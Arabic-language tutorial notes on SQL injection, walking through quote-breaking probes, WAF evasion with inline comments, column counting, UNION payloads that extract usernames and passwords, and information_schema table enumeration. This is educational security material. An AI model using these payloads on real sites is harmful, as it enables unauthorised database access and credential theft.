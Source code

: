 ```sql
select * from books where year=2020;
```

```sql
select * from books where year=2020 or year=2017;
```

##### لو فى كذا كونديشن - AND هى اللى بتتنفذ الاول وبعد كده OR حتى لو OR مكتوبه الاول 
```sql
select * from books where year=2020 AND sales=1000;
```


كل داتا بيز فيها datatype مختلفة - كل datatype بيتعملها presentation بطريقة مختلفة.

| **ارقام**                                                                                                                          | **مش ارقام**                                                                                    |
| ---------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- |
| بتكون بنسبة كبيرة من غير qout                                                                                                      | هنا لازم يكون فى quote                                                                          |
| يعنى زى الامثلة اللى مكتوبه فى الكويري فوق                                                                                         | `select * from books where author='islam';`                                                     |
| وده هيخلى اى عملية حسابية هتتكتب جوا الكود تتنفذ بالفعل<br>`select * from books where year=2020-20;`<br>الكويري دى هيخلى year=2000 | فى MariaDB - MySql<br>لو جينا عند الاسترينج وكتبناه كده <br>`'is' 'lam'`<br>هيعملها concatenate |
| هنا هنستفاد بالموضوع ده واحنا بنتيست ع الثغرة                                                                                      | فى PostgreSQL - Oracle<br>عشان يتعملها concatenate بنعمل كده <br>`'is'`\|\|`'lam'`              |
|                                                                                                                                    | فى SQLserver - microsoft sql server<br>بتكون كده `'is'+'lam'`                                   |

كل اللى فى الجدول ده بنجربه علشان نعرف هل فى sql injection ولا لاء 
وبردو هنعرف نوع الداتا بيز من خلال طريقة الــ concatenate اللى هتتقبل 
 
 منجحش الكلام ده ؟ -- يبقى هنتجه الى AND, OR
 بس نخلى بالنا واحنا بنتعامل مع الاسترينج ان هيكون فى سينجل او دوبل كوت فى الاخر 
 ف هنا لازم نستخدم الكومنت او نظبط الكويرى بتاعتنا ونحاول نقفل السينجل او الدوبل كوت اللى فى الاخر 
 كده مثلا 
```sql
--        ' AND 1='1
 select * from books where author='islam' AND 1='1';
```
هنا حطينا سينجل كوت قبل الواحد الاخير عشان يقفل الكوت بتاعت الكويري الاساسيه 
ودى اللى بنعتمد عليها فى الاول علشان لو الكويرى معقده وليها تكمله منعملش كومنت لحاجه احنا محتاجنها علشان الكويري تشتغل بدون اخطاء
 
والكومنت فى MySql 

Single Line: `-- xxxxxxxxx` 
Multiline: `/* xxxxxxxxxxxxxx */` 
 وفى بعض الاوقات بنستخدم Multiline Comment  على انه Space `/**/` علشان نعدى من WAF

---
### ازاى نــ Exploit SQL injection
### استخدام UNION
اللى لازم نعرفه عن union قبل ما نستخدمها هى ان 
1. لازم عدد الأعمدة في الاستعلام الأول (قبل UNION) يساوي عدد الأعمدة في الاستعلام الثاني. لو مش متساوي، الاستعلام هيفشل.
2. لازم أنواع البيانات تكون متوافقة (مثلاً title و username لازم يكونوا نصوص لو الاستعلام هيشتغل).

### مثال :-
**هنفترض إن فيه موقع فيه حقل بحث**:
- لما بتكتب كلمة في البحث (مثلاً search_term)، الموقع بيعمل استعلام زي:
```sql
SELECT title, 'Book' AS item_type FROM Books WHERE title LIKE '%search_term%';
```

هنجرب نستخدم union 
```sql
search_term' UNION SELECT username, password FROM users --
```
ف هنا الكويري هتتحول لكده لو فعلا مكان السيرش ده فيه ثغره 
```sql
SELECT title, 'Book' AS item_type FROM Books WHERE title LIKE '%search_term%' 
UNION 
SELECT username, password FROM users --
```
وبردو الكويرى مش هتشتغل اللا لو نوع الداتا اللى فى username نفس نوع الداتا اللى فى item_type
و نوع الداتا اللى فى  password نفس نوع الداتا اللى فى title

### تغير نوع الداتا 
طيب ولو فرضنا ان نوع الداتا فى password معمول INT 
ممكن نعمل حاجه زى كده ونحول نوع الداتا اللى موجود علشان الكويري تتنفذ
```sql
' UNION SELECT username, CAST(password AS CHAR) FROM users --
```

---
### معرفة عدد الاعمده
#### 1.  **طريقة ORDER BY**:

- **الفكرة**:
    - أمر ORDER BY بيُستخدم لترتيب النتايج بناءً على عمود معين. لو حاولت تستخدم ORDER BY برقم عمود أكبر من عدد الأعمدة الموجودة في الاستعلام، قاعدة البيانات هترجع خطأ.
    - بتزوّد الرقم تدريجيًا لحد ما تلاقي الرقم اللي يسبب خطأ، وبالتالي تعرف إن عدد الأعمدة هو الرقم اللي كان شغال قبل الخطأ.
    - زى كده `' ORDER BY 1 --` // `' ORDER BY 2 --` // `' ORDER BY 3 --` 

#### 2. **طريقة UNION SELECT مع قيم وهمية**:

- **الفكرة**:
    - تحقن استعلام UNION SELECT مع عدد أعمدة زيادة تدريجيًا، وتستخدم قيم وهمية (زي 1, 2, 3, إلخ) عشان تتأكد إن الاستعلام بيشتغل.
    - لو عدد الأعمدة صح، الاستعلام هينجح وهيظهر نتايج. لو العدد غلط، هيحصل خطأ أو مافيش نتايج.

`' UNION SELECT 1 --` 
لو فشل هنجرب
`' UNION SELECT 1, 2 --` 
 

ولو عرفت إن الأعمدة بتتعامل مع نصوص (strings) 
جرب تستخدم قيم زي 'test1', 'test2'  
بدل الأرقام وهكذا لغاية ما يطلعلنا قيمة وبكده نكون عرفنا عدد الاعمده 


---

### معرفة اسامى الجداول واسامى الاعمده:
عندنا حاجه اسمها #information_schema دى قاعدة بيانات افتراضية موجودة في أنظمة إدارة قواعد البيانات
بيكون فيها بيانات كتير زى جميع اسامى ( الجداول - الداتابيز - الاعمده اللى جوا الجداول )

واللى يهمنا فى الموضوع ده هو جدولين فى الداتابيز دى 

الاول وهو information_schema.tables 
والثانى information_schema.columns 


بعد ما عرفنا عدد الاعمده بالطريقة اللى فوق هنبتدى نشوف الاسامى بتاعة جداول الداتا بيز اللى احنا فيها 
ولازم الكويرى اللى هنحطها كــ بيلود تكون بنفس عدد الاعمده اللى موجوده فى الاستعلام الاساسي بتاع الموقع 

والكويرى هتكون كالاتى 
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
``` 

الجزء ده table_schema = DATABASE هو اللى بيحددلنا انه يبحث فى نفس الداتا بيز اللى احنا فيها 

هي اصلا الـ information_schema دى قاعدة بيانات الجداول اللى فيها من ضمنها جدول
اسمه tables وده اللى بيكون متجمع فيه كل الجداول اللى فى كل الداتا بيز اللى على السيرفر   
وده بندخله عن طريق الجزء ده information_schema.tables 
وبعد كده بنحدد ان العمود اللى اسمه table_schema واللى هو بيبقى فى اسماء الداتا بيز 
يعرضلنا فقط اسامى الجداول اللى فى الداتا بيز الحاليه.

لازم بقا ندمج الكويرى دى بعد معرفة عدد الاعمدة اللى موجوده فى الاستعلام الاساسى 
وليكن مثلا 3 اعمده .. يبقى paylod هتكون كده 

```sql
search_term' UNION SELECT table_name, 'test1', 'test2' FROM information_schema.tables WHERE table_schema = DATABASE() --
```

لو قاعدة البيانات الحالية فيها الجداول Books, employees, user_system 
النتيجة هتكون شكلها كده:
```
Book        | test1 | test2
employees   | test1 | test2
user_system | test1 | test2
orders      | test1 | test2
```


